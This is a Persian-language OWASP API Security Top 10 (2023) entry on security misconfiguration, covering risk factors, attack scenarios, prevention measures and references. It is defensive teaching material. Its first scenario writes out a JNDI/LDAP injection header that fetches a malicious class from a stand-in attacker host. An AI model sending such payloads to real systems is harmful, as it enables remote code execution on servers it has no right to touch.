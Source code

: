 # API8:2023 پیکربندی امنیتی نادرست

| ضعف امنیتی | عوامل تهدید / مسیر حمله | پیامد |
|---------|--------------------|------------|
| خاص API / قابلیت بهره‌برداری: آسان |  میزان شیوع: گسترده/ قابلیت تشخیص: آسان              | پیامد فنی: متوسط / خاص کسب و کار
| مهاجمین غالبا در تلاش برای یافتن حفره‌های وصله نشده، توابع رایج یا فایل‌ها و مسیرهای محافظت نشده به منظور دسترسی غیرمجاز به سیستم هستند. اطلاعات و تکنیک‌های مرتبط با این مسائل به طور عمومی در دسترس بوده و احتمال وقوع حمله در مورد آنها وجود دارد.              | پیکربندی امنیتی نادرست می‌تواند در هر سطحی از API، از سطح شبکه تا سطح اپلیکشن روی دهد. ابزارهای خودکاری وجود دارند که فرایند تشخیص و بهره برداری از پیکربندی‌های نادرست نظیر تشخیص سرویس‌های غیرضروری را انجام می‌دهند.     | پیکربندی امنیتی نادرست نه تنها می‌تواند اطلاعات حساس کاربر را افشا کند بلکه جزئیاتی از سیستم که ممکن است به از دست رفتن کامل سرور منجر شود را نیز در معرض خطر قرار می‌دهد.         |

## آیا API از نظر پیکربندی امنیتی نادرست‌‌‌آسیب‌پذیر است؟

API از منظر پیکربندی امنیتی نادرست ‌‌‌آسیب‌پذیر است اگر:

- ایمن سازی امنیتی مناسب در هر قسمت از پشته اپلیکیشن رعایت نشده یا اپلیکیشن مجوزهای با پیکربندی نادرست روی سرویس‌‌‌‌های ابری داشته باشد.
- جدیدترین وصله‌‌‌‌های امنیتی نصب نشده و سیستم‌‌‌‌ها کاملا بروز نباشند.
- ویژگی غیرضروری (نظیر Verb اضافی HTTP) فعال باشند.
- تفاوت‌هایی در نحوه پردازش درخواست‌های ورودی توسط سرورها در زنجیره سرور HTTP وجود داشته باشد.
- امنیت لایه انتقال (TLS) غیرفعال باشد.
- دستورات و الزامات امنیتی (نظیر  <LINK> سرایندهای امنیتی) به سوی کلاینت ارسال نشوند.
- خط مشی اشتراک متقابل منابع (CORS) وجود نداشته یا به درستی ‌پیاده‌سازی نشده باشد.
- پیام‌‌‌‌های خطا ردپای پشته یا اطلاعات حساس دیگر را افشا نمایند.

## مثال‌‌‌‌هایی از سناریوهای حمله

### سناریو #1

سروری از API یک نرم‌افزار ثبت دسترسی معتبر و متن‌باز با قابلیت توسعه و پشتیبانی از جستجوهای JNDI (واسطه نام‌گذاری و دایرکتوری جاوا) برای ثبت درخواست‌ها و دسترسی‌ها استفاده می‌کند. برای هر درخواست جدید، یک ورودی جدید با الگوی زیر ثبت می‌شود: `http <method> <api_version>/<path> - <status_code>` یک عامل مخرب، درخواست API مشخصی را ارسال می‌کند که در فایل گزارش دسترسی نوشته می‌شود:

```http
GET /health
X-Api-Version: ${jndi:ldap://attacker.com/Malicious.class}
```

اگر مهاجم از یک سرور کنترل از راه دور برای اجرای یک کد مخرب با نام  `Malicious.class`  استفاده کرده و این کد را در سرآیند درخواست `X-Api-Version` قرار دهد، نرم‌افزار گزارش‌دهی، به دلیل تنظیمات پیش‌فرض ناامن خود، این کد مخرب را از سرور مهاجم دانلود کرده و اجرا می‌کند.

### سناریو #2

یک وب‌سایت شبکه‌ی اجتماعی امکان ارسال "پیام مستقیم" را فراهم کرده که به کاربران امکان برقراری گفت‌وگوی خصوصی را می‌دهد. برای دریافت پیام‌های جدید در یک گفت‌وگو خاص، وب‌سایت درخواست API زیر را ارسال می‌کند (نیازی به تعامل کاربری نیست):

```http
GET /dm/user_updates.json?conversation_id=1234567&cursor=GRlFp7LCUAAAA
```

پاسخ API شامل هدر پاسخ `HTTP Cache-Control` نمی‌شود، به همین علت گفت‌وگوهای خصوصی در مرورگر وب ذخیره شده و به مهاجمان اجازه می‌دهد که آنها را از فایل‌های حافظه نهان مرورگر در فایل‌سیستم بازیابی کنند.

## چگونه از ‌‌‌آسیب‌پذیری پیکربندی امنیتی نادرست پیشگیری کنیم؟

چرخه حیات API بایستی شامل موارد زیر باشد:

- فرایندی تکرار شونده برای ایمن سازی API که منجر به ‌پیاده‌سازی سریع و آسان یک محیط ایمن شود.
- فرایندی برای بازبینی و بروزرسانی پیکربندی‌‌‌‌ها در سراسر پشته API؛ این بازبینی بایستی موارد از جمله بازبینی هماهنگی بین فایل‌‌‌‌ها، مولفه‌‌‌‌های API و سرویس‌‌‌‌های ابری (نظیر مجوزهای باکت‌‌‌‌های S3) را دربرگیرد.
- فرایندی خودکار جهت ارزیابی پیوسته و مداوم اثربخشی پیکربندی و تنظیمات اعمال شده در سراسر محیط API و اپلیکیشن.

بعلاوه:

- حصول اطمینان از این که تمام ارتباطات API از سمت مشتری به سرور و هر کارکردهای دیگر روی یک کانال ارتباطی رمزنگاری شده (TLS) انجام می‌شود؛ بدون توجه به اینکه آیا این API داخلی است یا به صورت عمومی منتشر شده است.
- حصول اطمینان از اینکه API فقط به افعال HTTP مدنظر توسعه دهنده پاسخ می دهد و غیرفعال کردن سایر افعال (نظیر HEAD).
- APIهایی که انتظار می‌رود دسترسی به آنها از طریق کلاینت‌‌‌‌های مبتنی بر مرورگر (مثلا فرانت WebApp) باشد:
  - بایستی خط مشی CORS مناسب را بکار گیرند.
  - شامل سرآیندهای امنیتی قابل اجرا باشند.
  - محتوا و فرمت‌ داده‌های ورودی را طوری محدود کنید که با نیازها و عملکرد کسب‌وکار سازگار باشند.
- برای جلوگیری از مشکلات عدم هماهنگی، مطمئن شوید که تمام سرورها در زنجیره سرورهای HTTP (مانند توازن بار، پروکسی‌های معکوس و پیشرو و back-end) درخواست‌های ورودی را به شیوه‌ای یکنواخت پردازش می‌کنند.
- در موارد قابل اجرا، تمام طرح‌های بارگیری پاسخ API تعریف و اعمال شود، از جمله پاسخ‌های خطا، تا از ارسال جزئیات اشتباه و اطلاعات مهم به مهاجمان جلوگیری گردد.
- برای همه پاسخ‌هایی که از API دریافت می‌شود، حتی پاسخ‌های شامل پیغام خطا، یک نقشه ساختاری دقیق تعریف شود. این اقدام باعث می‌شود که جزئیات خطاها و سایر اطلاعات حساس به مهاجمان ارسال نشود.

## مراجع

- [OWASP Secure Headers Project][1]
- [Configuration and Deployment Management Testing - Web Security Testing Guide][2]
- [Testing for Error Handling - Web Security Testing Guide][3]
- [Testing for Cross Site Request Forgery - Web Security Testing Guide][4]

### خارجی

- [CWE-2: Environmental Security Flaws][5]
- [CWE-16: Configuration][6]
- [CWE-209: Generation of Error Message Containing Sensitive Information][7]
- [CWE-319: Cleartext Transmission of Sensitive Information][8]
- [CWE-388: Error Handling][9]
- [CWE-444: Inconsistent Interpretation of HTTP Requests ('HTTP Request/Response Smuggling')][10]
- [CWE-942: Permissive Cross-domain Policy with Untrusted Domains][11]
- [Guide to General Server Security][12], NIST
- [Let's Encrypt: a free, automated, and open Certificate Authority][13]

[1]: https://owasp.org/www-project-secure-headers/
[2]: https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/02-Configuration_and_Deployment_Management_Testing/README
[3]: https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/08-Testing_for_Error_Handling/README
[4]: https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/06-Session_Management_Testing/05-Testing_for_Cross_Site_Request_Forgery
[5]: https://cwe.mitre.org/data/definitions/2.html
[6]: https://cwe.mitre.org/data/definitions/16.html
[7]: https://cwe.mitre.org/data/definitions/209.html
[8]: https://cwe.mitre.org/data/definitions/319.html
[9]: https://cwe.mitre.org/data/definitions/388.html
[10]: https://cwe.mitre.org/data/definitions/444.html
[11]: https://cwe.mitre.org/data/definitions/942.html
[12]: https://csrc.nist.gov/publications/detail/sp/800-123/final
[13]: https://letsencrypt.org/

